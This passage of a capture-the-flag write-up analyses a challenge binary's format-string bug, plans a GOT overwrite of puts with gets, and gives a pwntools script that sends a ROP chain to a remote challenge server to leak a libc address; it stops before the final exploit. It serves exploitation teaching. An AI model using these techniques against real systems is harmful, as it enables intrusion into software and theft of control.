 ```c
  printf("Nice name it %ds: ",1);
  printf(local_f8);
  printf("But now you won\'t be able to s%d%d me!\n",3,3);
  puts((char *)&local_28);
  show_flag = local_c;
  return;
}
```
This function takes an input in `local_f8`, then has a *format strings* vulnerability in the same variable, and then assigns the value of `local_c` (0 by default) to `show_flag`. Now, suppose if we somehow change the value of `local_c` to 1 or something else using the format strings vulnerability, we still need an overflow somewhere to call the `win` function. 
One thing which we can do for this is, if we perform a *GOT overwrite* and change the `puts` function to make it `gets`, we will get an overflow right before the assignment statement. Using the overflow, we can even change the value of `local_c` as well as call the `win` function. So that's what we'll do.  
But first, we need the LIBC (since we will be performing GOT overwrite). So, for that, let's leak some LIBC addresses.  
Here's the script for leaking LIBC addresses:
**leak_libc.py**
```py
from pwn import *

BINARY = "chall"

context.binary = BINARY
elf = context.binary
rop = ROP(elf)

p = remote("34.76.206.46", 10005)
# p = elf.process()

p.sendlineafter(b"your name: ", b"Ramesh")
p.sendlineafter(b"what you would like to do: ", b"2")

# First, leak libc base and rebase libc
OFFSET = 120

payload = flat(
    cyclic(OFFSET),
    p64(rop.find_gadget(["ret"]).address),
    p64(rop.find_gadget(["pop rdi", "ret"]).address),
    p64(elf.got["setvbuf"]),
    p64(elf.plt["puts"]),
    p64(elf.symbols["you_cant_see_me"])
)

p.sendlineafter(b"lucky one ;): ", payload)

LEAK = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"leaked address -> {hex(LEAK)}")

p.close()
```
Leak addresses of some common functions like `puts`, `setvbuf`, etc. Then use the last 3 nibbles to search for libc on [blukat](https://libc.blukat.me/). We get two results, let's assume that the first one is the LIBC we need (If it doesn't work, then we'll use the second one). Now, let's formulate our exploit:
